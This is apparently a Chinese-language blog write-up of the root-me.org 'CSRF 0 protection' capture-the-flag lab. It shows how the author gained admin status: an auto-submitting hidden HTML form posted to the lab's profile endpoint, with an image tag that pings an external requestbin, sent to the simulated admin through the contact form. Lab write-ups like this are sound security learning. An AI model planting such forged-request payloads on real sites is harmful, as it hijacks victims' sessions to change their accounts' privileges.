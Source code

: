 ```yaml
---
title: root-me.org Client CSRF 0 protection
key: 20190413
tags: ctf infosec root-me.org
---
```


玩root-me.org，这条卡壳了，网上搜了半天都没有正确的解法，中文的那几个都是乱翻译一个德语的教程，根本用不了，估计自己都没试过。

地址： https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection 

lab地址： http://challenge01.root-me.org/web-client/ch22/ 

![](https://cdn.discordapp.com/attachments/447635828496138241/594635890328993814/p59863980.png)

<!--more-->

进去之后是这个界面，先随便register，再login

![](https://cdn.discordapp.com/attachments/447635828496138241/594635963381055498/p59863990.png)

出现profile界面，status是灰色的，这是只有管理员才有的权限，这个lab解谜的关键就是bypass这个地方

![](https://cdn.discordapp.com/attachments/447635828496138241/594636075977146369/p59864042.png)


这时候想到直接在chrome里点f12修改elements，把 `<input type="checkbox" name="status" disabled>` 改成 `<input type="checkbox" name="status" value="on">` ，想当然了

![](https://cdn.discordapp.com/attachments/447635828496138241/594636165831720970/p59864058.png)

虽然可以打勾了，点submit还是提示不行

![](https://cdn.discordapp.com/attachments/447635828496138241/594636269171113994/p59864076.png)


于是就和标题说的一样，得尝试CSRF攻击了，刚好目录里有个contact

先去网上找个免费的**requestbin**，我用了这个 https://requestbin.fullcontact.com/ 

新建了一个requestbin，打算放到 `<img src = " ">` 里面让服务器执行

基本的思路就是构建让admin打开收件箱之后到http://challenge01.root-me.org/web-client/ch22/?action=profile 这个界面，然后自动执行对攻击者账号的validation的POST界面。

查看/?action=profile界面的源代码，抄一下

![](https://cdn.discordapp.com/attachments/447635828496138241/594636397277741056/p59864214.png)

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
    <form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="username" value="test" />
    <input type="hidden" name="status" value="on" />
    <button type="submit">Submit</button>
    </form>
    <script>document.csrf.submit()</script>
    <img src=" https://requestbin.fullcontact.com/【生成地址不放了】?=">
</body>
</html>
```

img里填requestbin的地址

![](https://cdn.discordapp.com/attachments/447635828496138241/594636486159368192/p59864531.png)

到contact里面把这段复制到comment里，由于lab是模拟一个对CSRF没有防御的网站，所以一旦发送后服务器就会马上模拟管理员打开信件并自动执行代码

![](https://cdn.discordapp.com/attachments/447635828496138241/594636680099790850/p59864490.png)

等了几十秒，查看requestbin发现服务器已经执行并访问了这个伪造的img地址

![](https://cdn.discordapp.com/attachments/447635828496138241/594636773133647892/p59864509.png)

点进private，成功拿到flag
